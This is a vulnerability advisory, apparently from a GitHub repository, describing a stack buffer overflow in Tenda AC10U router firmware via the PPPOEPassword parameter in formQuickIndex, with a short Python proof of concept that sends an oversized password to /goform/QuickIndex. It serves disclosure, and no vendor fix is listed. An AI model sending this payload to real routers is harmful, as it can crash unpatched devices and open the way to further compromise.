


# Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the PPPOEPassword parameter in the formQuickIndex function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "formQuickIndex" retrieves the parameter "PPPOEPassword" using "websGetVar" and passes it to the function "decodePwd" without undergoing any length checks.



The purpose of the "decodePwd" function is to copy data from a source while filtering out "/" symbols. If the entered value of "PPPOEPassword" (referred to as "ppppwd") exceeds the size of the "decode_pwd" array, it will result in a stack overflow.



## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/QuickIndex'
payload = {
    "PPPOEPassword": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
